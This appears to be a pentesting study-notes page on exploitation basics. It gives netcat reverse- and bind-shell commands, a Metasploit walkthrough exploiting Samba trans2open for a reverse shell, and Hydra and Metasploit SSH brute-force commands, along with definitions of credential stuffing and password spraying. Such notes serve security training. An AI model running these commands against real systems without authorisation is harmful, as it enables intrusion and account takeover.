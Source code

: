 # Exploitation Basics

## Reverse Shells vs Bind Shells

### Reverse Shell

A victim connects to us.

#### Attacker

```bash
nc -lvnp 4444  # Listening
```

#### Target

```bash
nc <Attack IP> -e /bin/sh  # Connecting
```

### Bind Shell

We connect to the victim.

#### Attacker

```bash
nc <Target IP> 4444  # Connecting
```

#### Target

```bash
nc -lvnp 4444 -e /bin/sh  # Listening
```

## Staged vs Non-Staged Payloads

### Staged

* Sends payload in stages
* Can be less stable
* Example: `windows/meterpreter/reverse_tcp`

### Non-staged

* Sends exploit shellcode all at once
* Larger in size and won't always work
* Example: `windows/meterpreter_reverse_tcp`

## Gaining Root with Metasploit

### Example

```bash
searchsploit samba 2.2
# Found a 'trans2open' vulnerability with (Metasploit) mentioned
msfconsole
search trans2open
use exploit/linux/samba/trans2open
set RHOSTS <Target IP>
run / exploit
# Session kept opening and closing...
# Looking at the options we see the payload linux/x86/meterpreter/reverse_tcp
# Since this didn't work we can change it to a Non-staged payload
set payload linux/x86/shell_reverse_tcp
run / exploit
```

## Manual Exploitation

### Example

Finding an Apache mod\_ssl < 2.8.7 vulnerability

Used Google to identify there is an exploit called OpenLuck on GitHub

Followed the steps on GitHub to download, install, compile, and run the exploit.

## Brute Force Attacks

### Tools

#### Hydra

```bash
hydra -l <user> -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP> -t 4
```

#### Metasploit

```bash
search ssh
use auxiliary/scanner/ssh/ssh_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set RHOSTS <IP>
run
```

## Credential Stuffing and Password Spraying

### What is Credential Stuffing?

Injecting breached account credentials in hopes of account takeover by testing large volumes of stolen usernames and passwords across multiple sites.

### What is Password Spraying?

Injecting breached account credentials in hopes of account takeover by attempting to access a large number of sites using known account identifiers (usernames) with a few commonly used passwords.

## Metasploit Unleashed

{% embed url="https://www.offensive-security.com/metasploit-unleashed" %}

## Armitage

_Armitage_ is a fantastic Java-based GUI front-end for the Metasploit Framework developed by Raphael Mudge. Its goal is to help security professionals better understand hacking and help them realize the power and potential of Metasploit.

{% embed url="https://www.offensive-security.com/metasploit-unleashed/armitage" %}
